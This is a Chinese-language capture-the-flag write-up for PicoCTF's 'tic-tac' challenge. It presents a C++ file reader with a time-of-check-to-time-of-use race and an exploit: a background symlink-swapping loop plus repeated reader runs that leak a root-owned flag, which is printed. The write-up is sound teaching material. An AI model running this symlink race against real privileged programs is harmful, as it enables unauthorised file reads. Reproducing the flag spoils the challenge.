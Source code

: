 # PicoCTF - tic-tac
## Background
[後端工程師面試考什麼 - Race Condition 篇](https://myapollo.com.tw/blog/interview-question-race-condition/)
[ [Day24]攻擊篇 ](https://ithelp.ithome.com.tw/articles/10208763)
> TOCTTOU
>
>Time of check to time of use
>在檢查和使用之間影響資源狀態的攻擊
>
>這種攻擊可能發生在共享資源中。
>可能導致程式在資源處於意外狀態時執行無效操作。
## Source code
:::spoiler Source code
```cpp=
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
  if (argc != 2) {
    std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
    return 1;
  }

  std::string filename = argv[1];
  std::ifstream file(filename);
  struct stat statbuf;

  // Check the file's status information.
  if (stat(filename.c_str(), &statbuf) == -1) {
    std::cerr << "Error: Could not retrieve file information" << std::endl;
    return 1;
  }

  // Check the file's owner.
  if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  }

  // Read the contents of the file.
  if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
  }

  return 0;
}
```
:::
## Recon
第一次寫這一種題目，具@ccccctw所說算是考古題了，看了[^pico_pwn_wp_maple_tic_tac][^pico_pwn_wp_martin_tic_tac][^pico_pwn_wp_aydin_tic_tac]還是不知道怎麼做出來的，所以問了@ccccctw
1. 可以看到source code是檢查root權限才可以讀到flag
2. 用兩次soft link讓這支程式呈現race condiction的狀態(不見得每次都會所以要靠賽)
3. 首先要先用一個infinity while loop創兩個soft link，然後在背景執行，第一次的soft link(`$ ln -sf test1 test`)是為了要過掉root權限的檢查，而第二次的soft link(`ln -sf flag.txt test`)是用來讀flag的
具體來說是這樣：
test的link會在flag.txt和test1之間切換，若我們用txtreader讀取test時，會有權限檢查，如果此時的link是test1，權限檢查就會通過，此時如果剛好test的link指向flag.txt，那我們就可以無縫的讀取到flag.txt的內容
5. 接著就可以用他的txtreader讀取test，如果幸運的話就可以讀到需要root權限的flag
## Exploit
```bash
$ ssh ctf-player@saturn.picoctf.net -p 59620
$ touch test1
$ while true; do ln -sf flag.txt test; ln -sf test1 test; done &
[1] 3039
$ for i in {1..1000};do ./txtreader test; done > output
$ cat output
picoCTF{ToctoU_!s_3a5y_007659c9}
picoCTF{ToctoU_!s_3a5y_007659c9}
picoCTF{ToctoU_!s_3a5y_007659c9}
picoCTF{ToctoU_!s_3a5y_007659c9}
picoCTF{ToctoU_!s_3a5y_007659c9}
picoCTF{ToctoU_!s_3a5y_007659c9}
```

Flag: `picoCTF{ToctoU_!s_3a5y_007659c9}`
## Reference
[^pico_pwn_wp_maple_tic_tac]:[tic-tac maple](https://blog.maple3142.net/2023/03/29/picoctf-2023-writeups/#tic-tac)
[^pico_pwn_wp_martin_tic_tac]:[picoCTF 2023 tic-tac](https://youtu.be/ONMVfKDqCr0)
[^pico_pwn_wp_aydin_tic_tac]:[ TicTac (TOCTOU attack) - Pico CTF 2023 - Race Condition ](https://youtu.be/b1-Aw96zysM)